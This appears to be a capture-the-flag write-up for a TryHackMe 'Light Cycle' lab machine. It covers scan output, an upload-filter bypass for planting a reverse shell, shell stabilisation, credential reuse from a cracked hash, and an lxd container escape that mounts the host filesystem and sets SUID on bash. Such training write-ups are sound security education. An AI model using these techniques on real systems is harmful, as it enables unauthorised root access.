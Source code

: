 # AdventOfCyber2

## Task 29

### NMAP scan

```
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-24 12:16 EST
Nmap scan report for 10.10.110.96
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
65000/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Light Cycle

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.94 seconds
```


### Gobuster scan

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.110.96:65000
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,phtml,php
[+] Timeout:        10s
===============================================================
2020/12/24 12:23:15 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads.php (Status: 200)
/assets (Status: 301)
/api (Status: 301)
/grid (Status: 301)
Progress: 18271 / 220561 (8.28%)
===============================================================
2020/12/24 12:31:18 Finished
===============================================================

```

### Getting access

- Using burp to block the filter.js file and using the extension `.png.php` allowed me to upload a reverse shell
- In the `/grid` directory all the uploaded files were stored so i got the shell easily

### Upgrade and stabilize shell

```
# https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
# In the reverse shell
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl-Z

# In our machine
$ stty raw -echo
$ fg

# In reverse shell
# Push Intro/CTRL-C
$ export TERM=xterm
```

### web.txt flag

`/var/www/web.txt` --> `THM{ENTER_THE_GRID}`


### Local DB credentials

- `/var/www/TheGrid/includes/dbauth.php` --> tron:IFightForTheUsers (*DB address:* `localhost`, *MSQL DB:* tron)

### Accessing the local DB

Use `mysql -u tron -p tron` and introduce the password IFightForTheUsers

```
mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
+----+----------+----------------------------------+
```

Using Crackstation: `flynn:@computer@`

Looks like the user used the same password in the machine so `su flynn` and use the found password to change to the new user

### user.txt flag

`/home/flynn/user.txt` --> `THM{IDENTITY_DISC_RECOGNISED}`

### Scaling privileges

`flynn` user is in the `lxd` so we can use `lxc`:

```
flynn@light-cycle:~$ lxc image list
To start your first container, try: lxc launch ubuntu:18.04

+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| Alpine | a569b9af4e85 | no     | alpine v3.12 (20201220_03:48) | x86_64 | 3.07MB | Dec 20, 2020 at 3:51am (UTC) |
+--------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```

We are lucky, we already have an Alpine image in the machine (Very convenient), lets get root access:

`lxc init Alpine pwned -c security.privileged=true`
`lxc config device add pwned system disk source=/ path=/mnt/root recursive=true`
`lxc start pwned`
`lxc exec pwned /bin/sh`

Nice we are in the container, we can access the victim file system in `/mnt/root` and get the flag:

`/root/root.txt` --> `THM{FLYNN_LIVES}`

If you want to get access as root to the actual machine and not only the container we can do the following:

`chmod +s /mnt/root/bin/bash`

That command will set the SUID to the victim machine bash. Just exit the container and type `bash -p` to get access as root to the machine!
